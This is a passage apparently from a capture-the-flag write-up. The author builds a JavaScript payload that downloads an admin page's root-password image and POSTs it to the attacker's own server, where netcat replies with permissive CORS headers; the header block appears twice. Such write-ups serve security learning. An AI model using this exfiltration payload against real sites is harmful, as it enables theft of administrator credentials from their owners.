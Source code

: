 ```html

  </body>
</html>
```

So we have two images of interest:

`<img src="admin/img/token.png?20151228" id="img-token"/>` and `<img src="admin/img/root_pw.png?20151228" id="img-bug-0003"/>`. So I proceed with this code:

```javascript
var url                 = "/admin/img/root_pw.png?20151228";
var request             = new XMLHttpRequest();
request.open ("GET", url, true);
request.responseType    = "arraybuffer";
request.send(null);

setTimeout(function(){

	var blob = new Blob([request.response], {type: "image/png"});
	var oReq = new XMLHttpRequest();
	oReq.open("POST", "http://myserver", true);
	oReq.send(blob);

}, 4000)
```

On my server, all this time, I'm just using netcat (yes, eponym) and feeding it an [HTTP response](https://gist.github.com/0xBADCA7/9829ec7f3364fd0b165e) with CORS headers, otherwise any modern browser would halt the request:

```http
HTTP/1.1 200 OK
Server: MSLC
Date: Sun, 28 Dec 2015 08:50:04 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Vary: Accept-Encoding
Status: 200 OK
Cache-Control: no-cache
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Origin, X-Requested-With, Content-Type, Accept
Access-Control-Allow-Methods: GET, POST, PUT

```

```http
HTTP/1.1 200 OK
Server: MSLC
Date: Sun, 28 Dec 2015 08:50:04 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Vary: Accept-Encoding
Status: 200 OK
Cache-Control: no-cache
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Origin, X-Requested-With, Content-Type, Accept
Access-Control-Allow-Methods: GET, POST, PUT
```
